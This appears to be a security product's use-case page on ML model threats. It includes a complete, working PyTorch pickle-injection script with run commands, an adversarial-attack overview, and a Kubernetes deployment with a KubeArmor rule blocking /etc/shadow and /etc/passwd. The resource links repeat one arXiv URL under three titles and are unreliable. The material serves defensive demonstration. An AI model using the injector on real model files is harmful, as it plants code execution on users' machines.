








# ModelArmor Use Cases

## **PyTorch Based Use Cases**

### **Use Case 1: Pickle Code Injection PoC**

The **Pickle Code Injection Proof of Concept (PoC)** demonstrates the security vulnerabilities in Python's `pickle` module, which can be exploited to execute arbitrary code during deserialization. This method is inherently insecure because it allows execution of arbitrary functions without restrictions or security checks.

​

#### Core Code Overview

**Custom Pickle Injector:**

```python
import os, argparse, pickle, struct, shutil
from pathlib import Path
import torch

class PickleInject:
    def __init__(self, inj_objs, first=True):
        self.inj_objs = inj_objs
        self.first = first

    class _Pickler(pickle._Pickler):
        def __init__(self, file, protocol, inj_objs, first=True):
            super().__init__(file, protocol)
            self.inj_objs = inj_objs
            self.first = first

        def dump(self, obj):
            if self.proto >= 2:
                self.write(pickle.PROTO + struct.pack("<B", self.proto))
            if self.first:
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)
            self.save(obj)
            if not self.first:
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)
            self.write(pickle.STOP)

    def Pickler(self, file, protocol):
        return self._Pickler(file, protocol, self.inj_objs)

    class _PickleInject:
        def __init__(self, args, command=None):
            self.command = command
            self.args = args

        def __reduce__(self):
            return self.command, (self.args,)

    class System(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=os.system)

    class Exec(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=exec)

    class Eval(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=eval)

    class RunPy(_PickleInject):
        def __init__(self, args):
            import runpy
            super().__init__(args, command=runpy._run_code)
            def __reduce__(self):
                return self.command, (self.args, {})

# Parse Arguments
parser = argparse.ArgumentParser(description="PyTorch Pickle Inject")
parser.add_argument("model", type=Path)
parser.add_argument("command", choices=["system", "exec", "eval", "runpy"])
parser.add_argument("args")
args = parser.parse_args()

# Payload construction
command_args = args.args
if os.path.isfile(command_args):
    with open(command_args, "r") as in_file:
        command_args = in_file.read()

if args.command == "system":
    payload = PickleInject.System(command_args)
elif args.command == "exec":
    payload = PickleInject.Exec(command_args)
elif args.command == "eval":
    payload = PickleInject.Eval(command_args)
elif args.command == "runpy":
    payload = PickleInject.RunPy(command_args)

# Save the injected payload
backup_path = f"{args.model}.bak"
shutil.copyfile(args.model, backup_path)
torch.save(torch.load(args.model), f=args.model, pickle_module=PickleInject([payload]))
```

#### Example Exploits

1. **Print Injection:**

   ```bash
   python torch_pickle_inject.py model.pth exec "print('hello')"
   ```

2. **Install Packages:**

   ```bash
   python torch_pickle_inject.py model.pth system "pip install numpy"
   ```

3. **Adversarial Command Execution:** Upon loading the tampered model:

   ```bash
   python main.py
   ```

   Output:

   - Installs the package or executes the payload.
   - Alters model behavior: changes predictions, losses, etc.

#### Attacker Use Cases

1. **Spreading Malware:** The injected code can download and install malware on the target machine, which can then be used to infect other systems in the network or create a botnet.
2. **Backdoor Installation:** An attacker can use pickle injection to install a backdoor that allows persistent access to the system, even if the original vulnerability is patched.
3. **Data Exfiltration:** An attacker can use pickle injection to read sensitive files or data from the system and send it to a remote server. This can include configuration files, database credentials, or any other sensitive information stored on the machine.

#### Key Risks

The `pickle` module is inherently insecure for handling untrusted input due to its ability to execute arbitrary code.

Ref: <https://hiddenlayer.com/research/weaponizing-machine-learning-models-with-ransomware/#Pickle-Code-Injection-POC>

---

### **Use Case 2: Adversarial Attacks on Deep Learning Models**

Adversarial attacks exploit vulnerabilities in AI systems by subtly altering input data to mislead the model into incorrect predictions or decisions. These perturbations are often imperceptible to humans but can significantly degrade the system's performance.

#### **Types of Adversarial Attacks**

1. **By Model Access:**
      - **White-box Attacks**: Complete knowledge of the model, including architecture and training data.
      - **Black-box Attacks**: No information about the model; the attacker probes responses to craft inputs.
2. **By Target Objective:**
      - **Non-targeted Attacks**: Push input to any incorrect class.
      - **Targeted Attacks**: Force input into a specific class.

#### **Attack Phases**

1. **Training Phase Attacks:**
      - **Data Poisoning**: Injects malicious data into the training set, altering model behavior.
      - **Backdoor Attacks**: Embeds triggers in training data that activate specific responses during inference.
2. **Inference Phase Attacks:**
      - **Model Evasion**: Gradually perturbs input to skew predictions (e.g., targeted misclassification).
      - **Membership Inference**: Exploits model outputs to infer sensitive training data (e.g., credit card numbers).

#### **Observations on Model Robustness**

Highly accurate models often exhibit reduced robustness against adversarial perturbations, creating a tradeoff between accuracy and security. For instance, Chen et al. found that better-performing models tend to be more sensitive to adversarial inputs.



#### **Defense Strategies**

1. **Pre-analysis:** Test models for prompt injection vulnerabilities using techniques like fuzzing.
2. Input Sanitation:
      - **Validation**: Enforce strict input rules (e.g., character and data type checks).
      - **Filtering**: Strip malicious scripts or fragments.
      - **Encoding**: Convert special characters to safe representations.
3. Secure Practices for Model Deployment:
      - Restrict model permissions.
      - Regularly update libraries to patch vulnerabilities.
      - Detect injection attempts with specialized tooling.


#### **Case Study: Pickle Injection Vulnerability**

Python's `pickle` module allows serialization and deserialization but lacks security checks. Attackers can exploit this to execute arbitrary code using crafted payloads. The module’s inherent insecurity makes it risky to use with untrusted inputs.

**Mitigation:**

- Avoid using `pickle` with untrusted sources.
- Use secure serialization libraries like `json` or `protobuf`.

#### **Relevant Resources**

- [Adversarial Attacks on Deep Learning Models](https://arxiv.org/pdf/2308.14367)
- [How to Protect ML Models Against Adversarial Attacks](https://arxiv.org/pdf/2308.14367)
- [Weaponizing ML Models with Ransomware](https://arxiv.org/pdf/2308.14367)

---


### **Use Case 3: Deploying a PyTorch Application with KubeArmor**

This guide demonstrates how to deploy a PyTorch application on Kubernetes and enhance its security using **KubeArmor** policies.

#### Steps to Deploy

1. **Python Script**: Create a simple PyTorch training script (`app.py`) to train a neural network model:

   ```python
   import torch
   import torch.nn as nn
   import torch.optim as optim

   class SimpleNet(nn.Module):
       def __init__(self):
           super(SimpleNet, self).__init__()
           self.fc1 = nn.Linear(10, 50)
           self.fc2 = nn.Linear(50, 1)

       def forward(self, x):
           x = torch.relu(self.fc1(x))
           x = self.fc2(x)
           return x

   # Training process
   input_data = torch.randn(100, 10)
   target_data = torch.randn(100, 1)
   model = SimpleNet()
   criterion = nn.MSELoss()
   optimizer = optim.SGD(model.parameters(), lr=0.01)

   for epoch in range(100):
       optimizer.zero_grad()
       output = model(input_data)
       loss = criterion(output, target_data)
       loss.backward()
       optimizer.step()
       if (epoch + 1) % 10 == 0:
           print(f'Epoch [{epoch+1}/100], Loss: {loss.item():.4f}')

   print("Training complete")
   ```

2. **Dockerize the Application**: Use the following `Dockerfile` to containerize the script:

   ```dockerfile
   FROM pytorch/pytorch:latest
   WORKDIR /app
   COPY . .
   CMD ["python", "app.py"]
   ```

3. **Kubernetes Deployment**: Define the deployment configuration in `pytorch-deployment.yaml`:

   ```yaml
   apiVersion: apps/v1
   kind: Deployment
   metadata:
     name: pytorch-deployment
     labels:
       app: pytorch
   spec:
     replicas: 1
     selector:
       matchLabels:
         app: pytorch
     template:
       metadata:
         labels:
           app: pytorch
       spec:
         containers:
         - name: pytorch-container
           image: yourusername/pytorch-app:latest
           ports:
           - containerPort: 5000
   ```

4. **Service Configuration**: Expose the deployment using a LoadBalancer with `pytorch-service.yaml`:

   ```yaml
   apiVersion: v1
   kind: Service
   metadata:
     name: pytorch-service
   spec:
     selector:
       app: pytorch
     ports:
       - protocol: TCP
         port: 80
         targetPort: 5000
     type: LoadBalancer
   ```

5. **Build and Push Docker Image**:

   ```bash
   docker build -t yourusername/pytorch-app:latest .
   docker push yourusername/pytorch-app:latest
   ```





6. **Deploy on Kubernetes**:

```bash
kubectl apply -f pytorch-deployment.yaml
kubectl apply -f pytorch-service.yaml
```



`kubectl get deployments`



`kubectl get services`



`kubectl get pods`



7. **Implement KubeArmor Policy**: Secure the deployment by applying the following policy in `kubearmor-policy.yaml`:

   ```yaml
   apiVersion: security.kubearmor.com/v1
   kind: KubeArmorPolicy
   metadata:
     name: restrict-file-access
     namespace: default
   spec:
     selector:
       matchLabels:
         app: pytorch
     process:
       matchPaths:
         - path: /etc/shadow
           action: Block
         - path: /etc/passwd
           action: Block
     file:
       matchDirectories:
         - dir: /etc/
           recursive: true
           action: Audit
     action: Block
   ```

   Apply the policy:

   ```bash
   kubectl apply -f kubearmor-policy.yaml
   ```

   

#### Key Takeaways

- This setup demonstrates how to deploy a PyTorch application using Kubernetes.
- KubeArmor enhances security by blocking unauthorized access to sensitive system files.
- The workflow includes containerization, deployment, service exposure, and runtime security enforcement.

---

## **TensorFlow Based Use Cases**

### FGSM Attack on a TensorFlow Model

<iframe src="https://drive.google.com/file/d/1EnmsIiR4G4bYmoxBIHTk1bDkW2XatM4N/preview" width="1000" height="480" allow="autoplay"></iframe>

### Keras Inject Attack and Apply Policies

<iframe src="https://drive.google.com/file/d/1olGBz3WUoJqmcAVdRY7uImKTHggRX6nK/preview" width="1000" height="480" allow="autoplay"></iframe>

## **Securing NVIDIA NIM**

<div>
  <iframe id="inlineFrameManual"
      title="Inline Frame Manual"
      width="150%"
      height="850"
      src="/resources/Securing_NVIDIA_NIM.pdf">
  </iframe>
</div>

